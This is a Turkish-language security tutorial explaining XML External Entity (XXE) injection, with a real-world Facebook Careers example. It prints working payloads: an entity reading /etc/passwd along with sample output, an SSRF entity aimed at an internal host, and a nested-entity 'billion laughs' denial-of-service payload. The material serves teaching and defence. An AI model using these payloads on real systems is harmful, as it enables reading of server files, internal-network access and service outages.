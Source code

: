 # XML External Entity Injection (XXE)

XXE, XML verilerin **Parsing** yapıldığı anda meydana gelir. XML verisine, **harici (external)** entity tanımları dahil edilerek, parsing sırasında XML verilerin işlenmesine müdahale edilmesiyle ortaya çıkmaktadır. XML'in sunduğu bazı özelliklerin kötüye kullanılmasından kaynaklanır.

XML Parser’lar, veriyi ayrıştırırken belge içerisindeki DTD ve Entity tanımlarını okur ve verilen direktiflere göre yorumlar. XML Parser üzerinde, harici entity tanımlarına izin veriliyorsa, saldırganlar XML verilerine harici entity tanımları dahil ederek, parsing sırasında amaçları doğrultusunda işlem yaptırabilir. Bu zafiyet üzerinden, **dosya okuma**, **SSRF (Server-side Request Forgery)** yani sunucu taraflı istek yapılabilmesi veya **hizmet kesintisi (DoS)** saldırıları gerçekleştirilebilir.

### Örnekler

**Dosya Okuma**

Örneğin, bir e-ticaret uygulamasında ürünün stokta olup olmama durumunu sorgularken aşağıdaki gibi bir istek yapıldığını düşünelim.

| <p><strong>&#x3C;?xml version="1.0" encoding="UTF-8"?></strong></p><p><strong>&#x3C;stockCheck></strong></p><p><strong>&#x3C;productId>381&#x3C;/productId></strong></p><p><strong>&#x3C;/stockCheck></strong></p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

Saldırganlar, XML verisine harici entity tanımlaması dahil ederek, sunucu tarafında (yetkileri doğrultusunda) istedikleri dosyaları okuyabilir. Örnek olarak, “test” adında bir entity tanımlanmış ve SYSTEM niteliği üzerinden “/etc/passwd” kaynağı çağrılmıştır.

**Yapılan İstek:**

| <p><strong>&#x3C;?xml version="1.0" encoding="UTF-8"?></strong></p><p><strong>&#x3C;!DOCTYPE demo [</strong></p><p><strong>&#x3C;!ENTITY test SYSTEM "file:///etc/passwd"></strong></p><p><strong>]></strong></p><p><strong>&#x3C;stockCheck></strong></p><p><strong>&#x3C;productId>&#x26;test;&#x3C;/productId></strong></p><p><strong>&#x3C;/stockCheck></strong></p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

**Dönen Cevap:**

| <p><strong>Invalid product ID: root:x:0:0:root:/root:/bin/bash</strong></p><p><strong>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin</strong></p><p><strong>bin:x:2:2:bin:/bin:/usr/sbin/nologin</strong></p><p><strong>...</strong></p> |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

**Server-side Request Forgery (SSRF)**

SSRF zafiyeti, sunucu taraflı istek yaptırılabilmesine olanak tanıyan bir güvenlik açığıdır. XXE zafiyeti üzerinden SSRF atakları gerçekleştirilebilir. Örneğin, kullanıcının doğrudan erişim sağlayamadığı ancak uygulama sunucunun erişebildiği, iç ağda yer alan sistemlere erişim sağlanabilir.

**HTTP GET İsteğinin Yapılması:**

| <p><strong>&#x3C;!DOCTYPE demo [</strong></p><p><strong>&#x3C;!ENTITY test SYSTEM "http://internal.vulnerable-website.com/"></strong></p><p><strong>]></strong></p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

**Denial of Service (DoS)**

Örneğin, XML veri içerisinde iç içe entity tanımlamaları yapılmasıyla, parsing sırasında gereksiz yük oluşturabilir böylece sistemin hizmet veremez duruma gelmesine sebep olabilir.

**İç İçe Entity Tanımlamaları:**

| <p><strong>&#x3C;?xml version="1.0" encoding="UTF-8"?></strong></p><p><strong>&#x3C;!DOCTYPE lolz [</strong></p><p> <strong>&#x3C;!ENTITY lol "lol"></strong></p><p> <strong>&#x3C;!ELEMENT lolz (#PCDATA)></strong></p><p><strong>&#x3C;!ENTITY lol1 "&#x26;lol;&#x26;lol;&#x26;lol;&#x26;lol;&#x26;lol;&#x26;lol;&#x26;lol;&#x26;lol;&#x26;lol;&#x26;lol;"></strong></p><p> <strong>&#x3C;!ENTITY lol2 "&#x26;lol1;&#x26;lol1;&#x26;lol1;&#x26;lol1;&#x26;lol1;&#x26;lol1;&#x26;lol1;&#x26;lol1;&#x26;lol1;&#x26;lol1;"></strong></p><p> <strong>&#x3C;!ENTITY lol3 "&#x26;lol2;&#x26;lol2;&#x26;lol2;&#x26;lol2;&#x26;lol2;&#x26;lol2;&#x26;lol2;&#x26;lol2;&#x26;lol2;&#x26;lol2;"></strong></p><p> <strong>&#x3C;!ENTITY lol4 "&#x26;lol3;&#x26;lol3;&#x26;lol3;&#x26;lol3;&#x26;lol3;&#x26;lol3;&#x26;lol3;&#x26;lol3;&#x26;lol3;&#x26;lol3;"></strong></p><p> <strong>&#x3C;!ENTITY lol5 "&#x26;lol4;&#x26;lol4;&#x26;lol4;&#x26;lol4;&#x26;lol4;&#x26;lol4;&#x26;lol4;&#x26;lol4;&#x26;lol4;&#x26;lol4;"></strong></p><p><strong>]></strong></p><p><strong>&#x3C;lolz>&#x26;lol5;&#x3C;/lolz></strong></p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

XXE zafiyeti, uygulama yüklenen dosyalar üzerinden de tetiklenebilir. Örneğin, SVG ve ofis dosyaları (.docx ve .xlsx vb.) gibi dosyalar XXE zafiyetini tetiklemek için kullanılabilir. SVG dosya tipi, XML formatlı resim dosyalarıdır. Aynı durum ofis dosyaları için de geçerlidir. Örneğin, .docx uzantılı bir dosyayı zip formatından çıkardığımızda XML uzantılı dosyaları görürüz.

### Örnek Olay

Yaşanmış bir olay ile devam edelim. Geçtiğimiz senelerde, Facebook Careers sayfası üzerinde, XXE zafiyeti tespit edilmişti. Sayfa üzerinde CV yükleme alanı bulunuyordu ve buraya sadece PDF ve DOCX uzantılı dosyalar yüklenebiliyordu. DOCX formatının aslında XML dosyalarından oluştuğunu söylemiştik. Zafiyeti tespit eden güvenlik araştırmacısı, özel olarak hazırladığı DOCX dosyası üzerinden zafiyeti tetikleyebilmişti.
